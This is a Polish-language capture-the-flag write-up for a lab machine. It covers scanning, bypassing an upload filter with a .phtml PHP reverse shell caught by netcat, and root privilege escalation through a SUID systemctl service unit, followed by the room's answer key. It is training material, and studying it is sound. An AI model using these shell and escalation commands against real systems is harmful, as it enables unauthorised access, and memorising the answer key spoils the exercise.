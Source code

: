 1. Na początku musimy klasycznie połączyć się z VPN za pomocą OpenVPN.
Wchodzimy na nasz profil pobieramy plik do połączanienia wchodzimy w "/Downloads" i wpisujemy w nowym
terminalu:

``` $ openvpn <Nazwa>.ovpn ```


2. Po tym otwieramy zadanie nr. 1 i odpalamy instancję ( Deploy ).


3. Po tym wszystkim możemy powoli zaczynać. Pierwsze co robimy to skanujemy maszyne:

``` $ nmap -sC -sV -T4 -A <Adress Ip> -oA nmap.nmap ```

4. Z skanowania da się wydedykować, że na porcie "3333" działa Server Apache. Wpisujemy więc w naszą przeglądarke
AdressIp:3333 i patrzymy co na niej widnieje.

5. Teraz z racji, że szukanie ręcznie ścieżek na stronie może być bardzo monotonne i nie efektywne użyjemy dirb,
dirbuster, wfuzz, gobuster. W zależności w czym wam wygodniej. Ja użyje gobuster'a:

``` $ gobuster dir -u http://<ip>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt ```

6. Po chwili znajdziemy ściekę "/internal", więc sprawdzamy co tam jest. ( Ip:3333/internal ). Widzimy, że na stronie
możemy wysyłać pliki do serwera. Pierwsze co sprawdzamy to jakie pliki można dzięki temu wysłać, w większości 
przypadków można ominąć sprawdzenie.

7. Z racji że jestem na systemie "Kali" to użyje PHP shell. Skopiuj reverse-shell do katalogu roboczego:

``` $ cp /usr/share/webshells/php/php-reverse-shell.php . ```

8. Musimy teraz zedytować plik na nasz adress Ip i Port. Adress Ip to adress który po wpisaniu "ifconfig" widnieje
obok "tun0" ( Twoje ip w VPN ). Port ustawmy na "hakerski" 4444. ($ip, $port). I zapiszmy plik.
( Ja użyłem edytora "nano", ale można użyć takiego, w którym jest Ci wygodniej np. "vi" )

9. Żeby przechwycić reverse-shella przydałoby się nasłuchiwać port który ustawiliśmy. Użyjemy w tym celu "NetCat":

``` $ nc -nlvp 4444 ```(<--port)

10. Możesz zrobić kopie tego pliku na różne ścieżki ".html" ".php" ".php1" ".php2" ".php5" ".phtml". Ja sprawdzałem
próbując wgrać pliki ręcznie, ale ty w tym celu możesz użyć np. "BurpSuite".

11. Po sprawdzeniu na serwer udało sie wysłać plik z rozszerzeniem ".phtml". Więc sprawdzamy gdzie plik się wgrał w 
tym celu do ścieżki dodajemy "/uploads" i widzimy nasz plik reverse.

12. Klikamy w plik na serwerze ( W przeglądarce ) przez co się uruchamia i w terminalu gdzie uruchomiliśmy netcata
widzimy połączenie i możemy zacząć wydawać polecenia.

13. Wpisując np. "id" "whoami" widzimy nasze uprawnienia.

14. W tym momencie musimy zobaczyć do czego mamy uprawnienia wchodząc np. do home:
```
$ cd /home
$ ls
$ cd bill
$ cat user.txt
```

15. Wyświtliła nam się pierwsza "flaga" dla user'a.

16. Teraz szukamy plików binarnych SUID. [SUID](https://en.wikipedia.org/wiki/Setuid) to w skrócie uprawnienia danego użytkowanika do danych plików:

```$ find / -user root -perm -4000 -print 2>/dev/null```

17. Widzimy teraz pare plików z ustawioną flagą SUID.

18. Teraz musimy zrobić atak o nazwie [Privilege Escalation](https://en.wikipedia.org/wiki/Privilege_escalation) do podniesienia naszych uprawnień systemowych. Scanując
flagę SUID znaleźliśmy plik o nazwie [systemctl](https://www.freedesktop.org/software/systemd/man/systemctl.html).

Systemctl to plik binarny, który kontroluje interfejsy użytkowników i est odpowiedzialny np. za uruchamiane usługi
podczas rozruchu. Domyślnie systemctl przeszuka pliki w "/etc/system/systemd" w celu poszukiwania i obsłużenia
jednostek.

19. Na tej maszynie nie możemy tworzyć nowych plików w ścieżkach należących do root'a, ale możemy zmienić [zmienne 
środowiskowe](https://pl.wikipedia.org/wiki/Zmienna_%C5%9Brodowiskowa) w już instniejącym, więc możemy zrobić PrivEsc.

20. Pierwsze co robimy to tworzymy zmienną środowiskową:

```$ priv=$(mktemp).service```

Teraz musimy stworzyć plik jednostkowy i przypisać go do zmiennej środowiskowej:

```$ echo '[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
[Install] 
WantedBy=multi-user.target' > $priv
```


( Nie bój użyć się entera dopóki nie skończy się ' <-- to możemy dalej wpisywać w nowej linijce. )

21. To co przed chwilą zrobiliśmy to prostu utworzenie usługi, która wykona "Basha", a następnie odczyta falge z 
katalogu głównego root'a i zapisze ją w fladze / pliku w katalogu "/opt"

22. Teraz musimy odpalić plik jednostkowy za pomocą "systemctl":

```$ /bin/systemctl link $priv

$ /bin/systemctl enable --now $priv
```

23. Teraz możemy zobaczyć plik flag w katalogu "/opt":

```$ cat flag```

24. To tyle przed chwilą wykonaliśmy komendę dla użytkownika root.


// Uzupełnienie rubryk 

Zadanie.2

1) 6

2) 3.5.12

3) 400

4) DNS

5) Ubuntu

6) 3333

Zadanie 3.

1) /internal/

Zadanie 4.

1) .php

2) .phtml

3) bill

4) Twoja flaga dla użytkownika (user-www..)

Zadanie 5.

1) /bin/systemctl

2) Twoja flaga dla administratora (root)
